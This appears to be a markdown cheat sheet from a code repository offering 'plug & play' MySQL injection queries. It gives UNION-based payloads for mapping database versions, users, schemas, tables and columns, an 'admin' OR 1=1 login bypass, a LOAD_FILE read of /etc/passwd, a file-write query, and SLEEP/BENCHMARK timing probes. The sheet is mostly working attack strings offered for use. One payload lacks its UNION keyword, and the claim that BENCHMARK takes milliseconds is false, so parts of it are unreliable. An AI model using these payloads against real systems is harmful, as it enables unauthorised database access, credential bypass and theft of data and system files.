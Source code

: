 # MySQL Cookbook

Plug & play injection queries for MySQL.

Keep in mind you may have to add or subtract columns in order to get union operations to work properly.

## Info Gathering

### Get MySQL version
`' UNION SELECT @@version; -- `

### Select server user
`' UNION SELECT user(); -- `

### Select system user
`' SELECT system_user(); -- `

### Get current database
`' UNION SELECT database(); -- `

### Get hostname
`' UNION SELECT @@hostname; -- `

### Get all databases on server (for MySQL v5+)
`' UNION SELECT schema_name FROM information_schema.schemata; -- `

### Get columns across all databases
`' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- `

### Get all tables in database
`' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- `

### Find table by name of column
`' UNION SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; -- `

## Bypass authentication

### Log in as admin user
`admin' OR 1=1; -- `

## Local file access (requires DB admin privileges)
### Read file
`' UNION ALL SELECT LOAD_FILE('/etc/passwd'); -- `

### Write file
`SELECT * FROM some_table INTO dumpfile '/tmp/file_name';`

## Other

### Wait for time
`'; SELECT BENCHMARK(1000000,MD5('A')); -- `
`'; SELECT SLEEP(5) -- `
Note: the first accepts milliseconds. It should work for any version. The second works for v5.0.12.

